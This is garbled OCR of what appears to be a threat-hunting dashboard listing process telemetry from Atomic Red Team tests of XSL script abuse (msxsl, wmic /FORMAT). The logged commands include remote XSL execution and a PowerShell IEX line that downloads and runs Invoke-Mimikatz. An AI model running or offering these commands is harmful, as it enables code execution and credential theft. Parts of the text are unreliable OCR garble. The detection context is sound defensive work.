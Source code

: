 command_line
C:\WindCowass\TeeymAp\lmwsxasly.esxeLCo:\vAetosmCicaReldcTe.aemx\aetomics\T1220\src\msxslxmlfile.xml
C:\AtomicRedTeam\atomics\T1220\src\msxslscript.xsl "C:\Windows\System32\calc.exe" "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Temp\msxsl.exe https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl"

msxsl.exe

C:\Windows\Temp\msxsl.exe https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl

calc.exe cmd.exe

"C:\Windows\System32\calc.exe" "C:\Windows\system32\cmd.exe" /c

Showing results 29-35 of 43

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name cmd.exe WMIC.exe cmd.exe cmd.exe
WMIC.exe
cmd.exe WMIC.exe WMIC.exe

command_line "C:\Windows\system32\cmd.exe" /c "wmic.exe process /FORMAT:list" wmic.exe process /FORMAT:list "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "wmic.exe process /FORMAT:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmics cript.xsl" wmic.exe process /FORMAT:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmics cript.xsl "C:\Windows\system32\cmd.exe" /c "C:\Windows\System32\Wbem\WMIC.exe" os get /format:wmicscript "C:\Windows\System32\Wbem\WMIC.exe" os get /format:wmicscript.xsl

Showing results 36-43 of 43

lolbas revello

event_type parent_process_name process_name command_line

destination

process

explorer.e xe Atomic Tesptionwgershell.exe "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

network

powershell.exe

go.microsoft.com

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

"IEX (New-Object Net.WebClient).DownloadString(

process powershell.exe

powershell.exe 'https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1');
